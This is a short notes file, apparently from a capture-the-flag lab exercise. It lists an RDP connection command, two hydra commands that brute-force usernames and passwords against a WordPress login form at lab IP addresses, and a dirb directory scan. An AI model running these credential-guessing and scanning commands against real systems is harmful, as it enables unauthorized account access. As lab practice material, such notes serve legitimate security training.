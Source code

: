 RDP: xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea
 hydra -L fsocity.dic -p test 10.10.202.57 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30

hydra -l Elliot -P /usr/share/wordlists/rockyou.txt 10.10.202.57 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password" -t 30

scan common extensions
dirb http://10.10.154.46/ /usr/share/wordlists/dirb/big.txt -x /usr/share/wordlists/dirb/extensions_common.txt -o dirb_big_ext.txt
